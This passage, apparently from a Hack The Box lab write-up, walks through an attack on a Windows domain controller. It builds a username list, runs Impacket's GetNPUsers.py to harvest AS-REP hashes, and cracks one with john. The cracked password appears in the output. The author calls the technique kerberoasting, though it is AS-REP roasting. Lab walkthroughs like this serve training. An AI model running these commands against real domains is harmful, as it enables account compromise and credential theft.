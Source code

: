 We'll format the names in a typical way you may see them on an Active Directory environment. Let's go ahead and do a few variants to just to be sure.

```
fergus.smith
shaun.coins
bowie.taylor
sophie.driver
hugo.bear
steven.kerb
fsmith
scoins
btaylor
sdriver
hbear
skerb
```

Without passwords, one of our options on a Windows domain controller using Kerberos is something called kerberoasting. [This article](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/) is a great resource that goes into better detail on these processes. Essentially, we can use a [tool from Impacket](https://github.com/SecureAuthCorp/impacket) to potentially harvest some non-preauth AS_REP responses. This may reveal some password hashes that we can crack.

Using our list, we can run our command `GetNPUsers.py` to attempt to harvest these responses.

```
$ GetNPUsers.py -dc-ip 10.10.10.175 EGOTISTICAL-BANK.LOCAL/ -usersfile users.txt -format hashcat
```

![](/assets/img/posts/htb/06-2020-2/kerberoast.png)

Success! This yields a hash for the user fsmith. We'll use john to crack the hash and reveal the users password.

```bash
$ sudo john user.hash --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Thestrokes23     ($krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL)
1g 0:00:00:22 DONE (2020-06-05 22:58) 0.04357g/s 459204p/s 459204c/s 459204C/s Thing..Thereisnospoon
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
